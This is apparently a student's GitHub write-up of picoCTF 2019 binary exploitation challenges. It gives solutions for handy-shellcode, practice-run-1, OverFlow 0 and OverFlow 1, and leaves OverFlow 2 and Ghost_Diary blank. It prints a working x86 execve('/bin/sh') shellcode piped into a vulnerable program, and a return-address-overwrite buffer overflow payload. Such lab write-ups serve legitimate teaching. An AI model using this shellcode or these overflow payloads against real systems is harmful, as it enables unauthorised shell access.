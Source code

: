 # Binary Exploitation
## handy-shellcode - Points: 50
This [program](https://github.com/arikoi0703/CTF_writeup/blob/master/pico2019/binary%20exploitation/handy-shellcode/vuln) executes any shellcode that you give it. Can you spawn a shell and use that to read the flag.txt? You can find the program in /problems/handy-shellcode_5_d1b3658f284f442eac06607b8ac4d1f5 on the shell server. [Source](https://github.com/arikoi0703/CTF_writeup/blob/master/pico2019/binary%20exploitation/handy-shellcode/vuln.c).
- You might be able to find some good shellcode online.
#### Solutions
> ```shell
> $uname -a
> Linux pico-2019-shell1 4.15.0-1050-aws #52-Ubuntu SMP Thu Sep 12 19:56:00 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
> ```
> check the system, then find shell on [shell-storm](http://shell-storm.org/shellcode/)  
> what to do it's to get the shell, look for /bin/sh or /bin/bash and so on.  
> and put it into vuln.  
> ```shell
> $( python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"'; cat ) | ./vuln
> Enter your shellcode:
> 1�Ph//shh/bin����°
>                  ̀1�@̀
> Thanks! Executing now...
> ls
> flag.txt  vuln  vuln.c
> cat flag.txt
> picoCTF{XXXXXXXX}
> ```
> after get shell, cat flag.txt to get flag.  
---
## practice-run-1 - Points: 50
You're going to need to know how to run programs if you're going to get out of here. Navigate to /problems/practice-run-1_0_62b61488e896645ebff9b6c97d0e775e on the shell server and run this [program](https://github.com/arikoi0703/CTF_writeup/blob/master/pico2019/binary%20exploitation/practice-run-1/run_this) to receive a flag.
- How do you execute a program in a command line?
#### Solutions
> this must use the pico shell to solve.
> ```shell
> ./run_this
> ```
> and get flag.
---
## OverFlow 0 - Points: 100
This should be easy. Overflow the correct buffer in this [program](https://github.com/arikoi0703/CTF_writeup/blob/master/pico2019/binary%20exploitation/OverFlow%200/vuln) and get a flag. Its also found in /problems/overflow-0_3_dc6e55b8358f1c82f03ddd018a5549e0 on the shell server. [Source](https://github.com/arikoi0703/CTF_writeup/blob/master/pico2019/binary%20exploitation/OverFlow%200/vuln.c).
- Find a way to trigger the flag to print
- If you try to do the math by hand, maybe try and add a few more characters. Sometimes there are things you aren't expecting.
#### Solutions
> connect to pico shell.  
> accordion to [Source](https://github.com/arikoi0703/CTF_writeup/blob/master/pico2019/binary%20exploitation/OverFlow%200.c), the flag will be print when segmentaion fault.  
> overflow it by many character and get flag.
---
##OverFlow 1 - Points: 150
You beat the first overflow challenge. Now overflow the buffer and change the return address to the flag function in this [program](https://github.com/arikoi0703/CTF_writeup/blob/master/pico2019/binary%20exploitation/OverFlow%201/vuln)? You can find it in /problems/overflow-1_5_c76a107db1438c97f349f6b2d98fd6f8 on the shell server. [Source](https://github.com/arikoi0703/CTF_writeup/blob/master/pico2019/binary%20exploitation/OverFlow%201/vuln.c).
- Take control that return address
- Make sure your address is in Little Endian.
#### Solutions
> rewrite the return address.  
> try  
> ```shell
> $echo -n -e "\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0" | ./vuln
> ```
> and get "Woah, were jumping to 0x0 !"
> use gdb to find the flag() address.  
> ```shell
> $gdb ./OverFlow 1
> (gdb) disassemble flag
> ```
> the address of flag() is 0x080485e6  
> try the length of \x0, remember the address will be \xe6\x85\x04\x08.  
> ```shell
> $echo -n -e "\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\x0\xe6\x85\x04\x08" | ./vuln
> ```
> and get the flag.
---
## OverFlow 2 - Points: 250
Now try overwriting arguments. Can you get the flag from this [program](https://github.com/arikoi0703/CTF_writeup/blob/master/pico2019/binary%20exploitation/OverFlow%202/vuln)? You can find it in /problems/overflow-2_4_bbfcc061b1e9e5e8a7e313593365d434 on the shell server. [Source](https://github.com/arikoi0703/CTF_writeup/blob/master/pico2019/binary%20exploitation/OverFlow%202/vuln.c).
- GDB can print the stack after you send arguments
#### Solutions
> 
---
## Ghost_Diary - Points: 500
Try writing in this [ghost diary](https://github.com/arikoi0703/CTF_writeup/blob/master/pico2019/binary%20exploitation/Ghost_Diary/ghostdiary). Its also found in /problems/ghost-diary_3_ef159a8a880a083c73a2bb724fc0bfcb on the shell server.
#### Solutions
>
